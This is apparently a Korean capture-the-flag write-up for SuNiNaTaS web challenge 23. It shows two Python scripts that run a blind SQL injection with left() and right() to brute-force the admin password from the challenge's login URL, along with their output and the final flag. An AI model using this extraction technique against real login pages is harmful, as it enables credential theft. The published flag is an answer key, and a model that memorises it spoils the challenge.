


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

순서를 이용하여 admin이라는 글자를 우회하고, OK admin이라는 글자를 확인할 수 있다.



그렇다면, admin left함수를 이용하여 admin의 pw를 알아내자

```python
import urllib
import urllib.request
import sys

ascii_set = ''.join([chr(i) for i in range(33,127)])
left_flag = ''

while True:
    old_len = len(left_flag)
    for a in ascii_set:
        id = '%27or+left%28pw%2C{}%29%3D%27{}%27--'.format(len(left_flag)+1, left_flag+a)
        pw = '123'
        url = 'http://suninatas.com/challenge/web23/web23.asp?id='+id+'&pw='+pw
        req = urllib.request.Request(url=url)
        res = urllib.request.urlopen(req).read().decode()
        if 'blue>admin<' in res:
            left_flag += a
            break
    if old_len == len(left_flag): break
print('left ' + left_flag)

[Output]
left V3RYHARDSQ
```

하지만 로그인되지 않는다. right함수를 이용하여 오른쪽부터 알아낸다.

```python
right_flag = ''
while True:
    old_len = len(right_flag)
    for a in ascii_set:
        id = '%27or+right%28pw%2C{}%29%3D%27{}%27--'.format(len(right_flag)+1, a+right_flag)
        pw = '123'
        url = 'http://suninatas.com/challenge/web23/web23.asp?id='+id+'&pw='+pw
        req = urllib.request.Request(url=url)
        res = urllib.request.urlopen(req).read().decode()
        if 'blue>admin<' in res:
            right_flag = a + right_flag
            break
    if old_len == len(right_flag): break
print('right ' + right_flag.lower())

[Output]
right YHARDSQLI
```


# **FLAG**

**v3ryhardsqli**